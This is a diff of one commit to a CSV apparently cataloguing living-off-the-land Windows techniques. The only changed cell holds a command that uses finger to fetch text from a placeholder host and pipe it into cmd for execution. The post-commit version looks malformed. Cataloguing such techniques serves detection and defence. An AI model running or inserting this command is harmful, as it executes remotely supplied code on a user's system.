

Before and after one commit to swanpake/LOLBasFormated, a CSV file: lolbas.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update lolbas.csv

```diff
--- a/lolbas.csv
+++ b/lolbas.csv
-G80 (standardizedCommand): finger user example.host.com | more +2 | cmd
+G80 (standardizedCommand): finger user example.host.com more | cmd
```
